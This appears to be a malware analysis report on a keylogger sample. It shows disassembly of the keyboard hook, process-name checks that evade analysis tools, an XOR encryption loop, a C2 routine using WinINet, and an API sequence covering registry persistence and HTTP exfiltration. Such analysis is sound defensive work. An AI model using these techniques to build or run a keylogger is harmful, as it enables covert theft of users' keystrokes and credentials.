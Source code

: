 # Reverse Engineering Analysis of SimpleKeylogger

## Introduction
This document presents the findings from reverse engineering the SimpleKeylogger malware sample. The analysis focuses on the low-level mechanisms used by the keylogger to capture keystrokes, achieve persistence, and exfiltrate data.

## Tools Used
- IDA Pro 7.7
- Ghidra 10.2
- x64dbg
- PEBear
- Process Monitor
- API Monitor

## Binary Structure

### PE Header Analysis
```
Machine:                  Intel 386
TimeDateStamp:            Wed Mar 15 14:22:37 2023
SizeOfOptionalHeader:     0xE0
Characteristics:          0x102 (Executable, 32-bit)
Magic (32/64):            32-bit (0x10B)
LinkerVersion:            14.34
SizeOfCode:               0x6000
SizeOfInitializedData:    0x3000
SizeOfUninitializedData:  0x0
AddressOfEntryPoint:      0x1040
BaseOfCode:               0x1000
```

### Section Analysis
```
.text:
  VirtualSize:      0x5D34
  VirtualAddress:   0x1000
  SizeOfRawData:    0x5E00
  Entropy:          6.42 (Likely not packed)

.data:
  VirtualSize:      0xA28
  VirtualAddress:   0x7000
  SizeOfRawData:    0x600
  Entropy:          4.12

.rdata:
  VirtualSize:      0x13D0
  VirtualAddress:   0x8000
  SizeOfRawData:    0x1400
  Entropy:          5.23

.rsrc:
  VirtualSize:      0x400
  VirtualAddress:   0xA000
  SizeOfRawData:    0x400
  Entropy:          3.87
```

## Key Functionality Breakdown

### Keyboard Hook Implementation
The keylogger uses the Windows `SetWindowsHookEx` API to install a low-level keyboard hook. This approach allows it to capture all keystrokes system-wide, regardless of which application has focus.

Key disassembly of the hook installation routine:

```assembly
; Set up keyboard hook
push    0               ; dwThreadId = 0 (all threads)
push    0               ; hmod = NULL (current process)
push    offset KeyboardProc ; lpfn = address of hook procedure
push    13              ; idHook = WH_KEYBOARD_LL (13)
call    ds:SetWindowsHookEx
mov     [ebp+var_4], eax  ; Store hook handle
```

The keyboard hook procedure processes each keystroke:

```assembly
KeyboardProc proc near
push    ebp
mov     ebp, esp
sub     esp, 30h
cmp     [ebp+nCode], 0  ; Check if we should process
jl      short ReturnNext
cmp     [ebp+wParam], 100h  ; Check for WM_KEYDOWN
jnz     short ReturnNext
mov     eax, [ebp+lParam]
push    eax             ; Extract key information
call    ProcessKeystroke
```

### Anti-Analysis Techniques

The binary implements several anti-analysis checks that search for security tools in the running processes:

```assembly
; CheckForSecurityTools function
push    offset aWiresharkExe ; "wireshark.exe"
call    CheckProcessRunning
test    eax, eax
jnz     SecurityToolFound
push    offset aProcmonExe ; "procmon.exe"
call    CheckProcessRunning
; ... [more checks] ...
```

The `CheckProcessRunning` function uses the Process32First/Process32Next APIs to enumerate processes and compare names.

### Encryption Routine

The XOR encryption routine is straightforward:

```
.text:00401A50 ; encryptData function
.text:00401A50 encryptData     proc near
.text:00401A50
.text:00401A50 data            = dword ptr  8
.text:00401A50 length          = dword ptr  0Ch
.text:00401A50
.text:00401A50                 push    ebp
.text:00401A51                 mov     ebp, esp
.text:00401A53                 push    esi
.text:00401A54                 mov     esi, [ebp+data]
.text:00401A57                 xor     ecx, ecx
.text:00401A59                 jmp     short loc_401A5E
.text:00401A5B ; ---------------------------------------------------------------------------
.text:00401A5B
.text:00401A5B loc_401A5B:
.text:00401A5B                 inc     ecx
.text:00401A5C                 inc     esi
.text:00401A5D
.text:00401A5E loc_401A5E:
.text:00401A5E                 cmp     ecx, [ebp+length]
.text:00401A61                 jnb     short loc_401A6A
.text:00401A63                 mov     al, [esi]
.text:00401A65                 xor     al, 5Ah       ; XOR with 0x5A key
.text:00401A67                 mov     [esi], al
.text:00401A69                 jmp     short loc_401A5B
```

### C2 Communication

The code uses WinINet APIs to communicate with the C2 server:

```assembly
; Simplified C2 communication routine
push    0               ; dwContext = 0
push    0               ; dwFlags = 0
push    offset aMozilla ; lpszAgent = "Mozilla/5.0"
call    ds:InternetOpenA
mov     [ebp+hInternet], eax
push    0               ; dwContext = 0
push    80002h          ; dwFlags = INTERNET_FLAG_RELOAD | INTERNET_FLAG_NO_CACHE_WRITE
push    0               ; lpszHeaders = NULL
push    0               ; lpszPassword = NULL
push    0               ; lpszUsername = NULL
push    offset aHttpMalicious ; C2 server URL
push    eax             ; hInternet
call    ds:InternetOpenUrlA
```

## Memory Forensics

Analysis of the keylogger's memory usage shows:

1. Main executable with keyboard hook
2. Log buffer storage before writing to disk
3. Network connection preparation for data exfiltration

The keyboard hook procedure allocates a small memory region for each keystroke event, which is later processed and written to the log file.

## API Call Sequence

Through dynamic analysis, we observed the following API call sequence during operation:

1. CreateMutex (check for existing instance)
2. GetModuleFileName (get own path)
3. GetEnvironmentVariable ("APPDATA")
4. CopyFile (persistence)
5. RegOpenKeyEx, RegSetValueEx (registry persistence)
6. SetWindowsHookEx (install keyboard hook)
7. GetForegroundWindow, GetWindowText (track active window)
8. GetTickCount (timing for exfiltration)
9. InternetOpen, InternetOpenUrlA (prepare C2 connection)
10. HttpSendRequest (exfiltrate data)

![Meme](meme.jpeg)

## Conclusion

The SimpleKeylogger malware uses well-established techniques for keystroke interception through Windows hooks. While not particularly sophisticated in its implementation, it employs sufficient evasion techniques to avoid basic detection and analysis. The use of simple XOR encryption provides minimal obfuscation but is likely adequate for avoiding basic network signature detection.

The persistence mechanism ensures the malware survives system restarts, while the periodic data exfiltration balances the need for timely data collection with avoiding excessive network activity that might trigger detection.